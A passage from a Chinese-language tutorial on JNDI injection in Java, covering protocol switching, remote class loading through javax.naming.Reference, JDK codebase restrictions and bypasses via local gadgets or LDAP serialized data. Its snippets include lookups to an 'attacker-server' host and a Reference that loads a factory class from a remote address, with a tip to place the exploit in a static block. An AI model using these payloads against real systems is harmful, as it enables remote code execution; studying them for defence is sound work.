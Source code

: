 ### JNDI动态协议转换

JDNI支持动态协议转换，即自动识别URL协议并使用对应的factory类，provider通过URL传递

```java
Context ctx = new InitialContext();
ctx.lookup("rmi://attacker-server/refObj");
// ctx.lookup("ldap://attacker-server/cn=bar,dc=test,dc=org");
// ctx.lookup("iiop://attacker-server/bar");
```

### javax.naming.Reference

构造函数需要三个参数：

+ className，如果本地找不到这个类，则去远程加载
+ classFactory，远程加载时的factory类
+ classFactoryLocation，远程factory类的加载地址，可以是file、ftp、http协议

```java
Reference refObj = new Reference("refClassName", "FactoryClassName", "http://1.1.1.1:9999/");

ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
registry.bind("refObj", refObjWrapper);
```

当client lookup时，会获取到一个reference类的stub，接着client会先去本地CLASSPATH找refClassName类，找不到的话会去http://1.1.1.1:9999加载FactoryClassName类，e.g. request to http://1.1.1.1/FactoryClassName.class

因为会加载class字节码，所以可以直接将EXP写入static块，它不受`java.rmi.server.useCodebaseOnly`限制。naming reference利用一般选择marshalsec

安全限制：

![](https://eddieivan01.github.io/assets/img/jndi.jpg)

RMI：

+ `JDK 5 U45,JDK 6 U45,JDK 7u21,JDK 8u121`开始`java.rmi.server.useCodebaseOnly`默认配置已经改为了`true`。

+ `JDK 6u132, JDK 7u122, JDK 8u113`开始`com.sun.jndi.rmi.object.trustURLCodebase`默认值已改为了`false`。

LDAP：

+ `LDAP`在`JDK 11.0.1、8u191、7u201、6u211`后也将默认的`com.sun.jndi.ldap.object.trustURLCodebase`设置为了`false`。

### 高于JDK8u191版本的JDNI注入

需要结合受害者本地CLASSPATH中的gadgets

1. 找到一个受害者本地CLASSPATH中的类作为恶意的Reference Factory工厂类，并利用这个本地的Factory类执行命令。
2. 利用LDAP直接返回一个恶意的序列化对象，JNDI注入依然会对该对象进行反序列化操作，利用反序列化Gadget完成命令执行。LDAP除了可通过Reference指定CodeBase外，还可返回javaSerializedData

### 总结一下JNDI的几种攻击方式
